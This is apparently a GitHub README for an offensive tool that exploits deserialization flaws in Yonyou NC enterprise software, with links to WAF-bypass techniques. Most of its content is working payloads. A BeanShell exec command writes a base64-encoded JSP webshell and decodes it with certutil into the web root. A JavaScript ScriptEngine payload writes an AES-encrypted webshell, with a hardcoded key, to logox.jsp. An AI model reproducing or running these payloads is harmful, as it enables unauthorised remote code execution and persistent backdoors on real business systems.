

#  Yongyou-Unserialize-plus
2023年分析用友的一些反序列化链子以及1day，二开了一下工具

绕waf可以看一下：
https://mp.weixin.qq.com/s/fcuKNfLXiFxWrIYQPq7OCg

https://vidar-team.feishu.cn/docx/LJN4dzu1QoEHt4x3SQncYagpnGd

套一下Whoopsunix师傅写的 https://github.com/Whoopsunix/utf-8-overlong-encoding/blob/main/src/main/java/com/ppp/UTF8OverlongObjectOutputStream.java 就可以了

# 用友nc反序列化利用工具

YongYouNc.jar

二开的：https://github.com/wgpsec/YongYouNcTool

1. 增加脏数据以及UTF-8 Overlong Encoding

2. 将内存马改为字节码加载，方便加载自定义的字节码


3. 增加反序列化利用链，以及多个poc




## nc6.5存在过滤的话

BeanShell 写webshell

```
exec("cmd.exe /c echo+PCVAcGFnZSBpbXBvcnQ9ImphdmEudXRpbC4qLGphdmF4LmNyeXB0by4qLGphdmF4LmNyeXB0by5zcGVjLioiJT48JSFjbGFzcyBVIGV4dGVuZHMgQ2xhc3NMb2FkZXJ7VShDbGFzc0xvYWRlciBjKXtzdXBlcihjKTt9cHVibGljIENsYXNzIGcoYnl0ZSBbXWIpe3JldHVybiBzdXBlci5kZWZpbmVDbGFzcyhiLDAsYi5sZW5ndGgpO319JT48JWlmIChyZXF1ZXN0LmdldE1ldGhvZCgpLmVxdWFscygiUE9TVCIpKXtTdHJpbmcgaz0iZTQ1ZTMyOWZlYjVkOTI1YiI7c2Vzc2lvbi5wdXRWYWx1ZSgidSIsayk7Q2lwaGVyIGM9Q2lwaGVyLmdldEluc3RhbmNlKCJBRVMiKTtjLmluaXQoMixuZXcgU2VjcmV0S2V5U3BlYyhrLmdldEJ5dGVzKCksIkFFUyIpKTtuZXcgVSh0aGlzLmdldENsYXNzKCkuZ2V0Q2xhc3NMb2FkZXIoKSkuZyhjLmRvRmluYWwobmV3IHN1bi5taXNjLkJBU0U2NERlY29kZXIoKS5kZWNvZGVCdWZmZXIocmVxdWVzdC5nZXRSZWFkZXIoKS5yZWFkTGluZSgpKSkpLm5ld0luc3RhbmNlKCkuZXF1YWxzKHBhZ2VDb250ZXh0KTt9JT4=>./webapps/nc_web/1.txt")
exec("cmd.exe /c certutil -decode ./webapps/nc_web/1.txt ./webapps/nc_web/2.jsp")
```

## CC6打ScriptEngineManager

直接写shell,适用于nc6.5

```javascript
var path = "./webapps/nc_web/";
var shell = "<%@page import=\"java.util.*,javax.crypto.*,javax.crypto.spec.*\"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals(\"POST\")){String k=\"e45e329feb5d925b\";session.putValue(\"u\",k);Cipher c=Cipher.getInstance(\"AES\");c.init(2,new SecretKeySpec(k.getBytes(),\"AES\"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>";
var printwriter = new java.io.PrintWriter(path+"logox.jsp");
printwriter.println(shell);
printwriter.close();
```
